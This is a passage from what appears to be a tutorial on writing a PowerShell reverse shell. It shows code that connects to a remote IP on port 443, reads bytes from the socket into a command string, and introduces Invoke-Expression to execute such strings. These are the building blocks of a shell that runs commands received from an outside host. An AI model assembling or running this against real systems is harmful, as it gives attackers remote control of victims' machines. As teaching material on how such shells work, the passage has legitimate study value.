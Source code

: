 Note that we have ***Write-Host*** here, we print the first value of our buff, this value will be the first byte itself we sent, but to execute something in our system we need that the command be in plain text, so we need decode this value into a char, or better, decode a range of bytes in our buffer into a string, for this type of decoding we will use the [.Net Text Namespace](https://docs.microsoft.com/en-us/dotnet/api/system.text.asciiencoding?view=netcore-3.1).

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = $client.GetStream()

$size = $stream.Read($buff, 0, $buff.Length);

$command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);

$client.Close();
```
What we did here was, from the ASCIIEnconding Namespace, select the class ASCII and call his static method GetString from my $buff starting from the index 0 until we reach our $size,
now our ***$command*** variable holds the decoded string, if we send "Hello world" this variable will hold this text.

### Understanding expressions

Ok, before we continue our script it's very important to understand ***Expressions*** calls.

There is a few languages that give us the capalities to evaluate some kind of expression in raw string, and run the command itself, like: Javascript(eval), Python(eval), PHP(eval)... A lot of langs call this function as ***eval***, so what this really do ? Take a look at this python example:


#### Python
```python
>>> command = "print('Hello world')"
>>> eval(command)
Hello world
```

As you can see, our Python interpreter is also capable to read raw strings and interpret in real time, this is also possible in Powershell using the cmdlet ***Invoke-Expression*** or shorter ***iex***.

#### Back to our code

Take a look in this simple example and try to understand it:

```powershell
$helloCode = "Write-Host Hello eval!";
Invoke-Expression $helloCode;
```
